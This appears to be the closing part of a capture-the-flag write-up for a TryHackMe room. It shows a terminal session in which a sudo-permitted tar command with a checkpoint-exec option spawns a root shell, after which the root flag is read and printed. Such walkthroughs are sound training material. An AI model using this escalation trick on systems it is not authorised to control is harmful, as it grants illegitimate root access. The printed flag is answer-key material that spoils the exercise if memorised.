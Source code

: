 ```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls     
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
#  
```
## Done 
# 😄
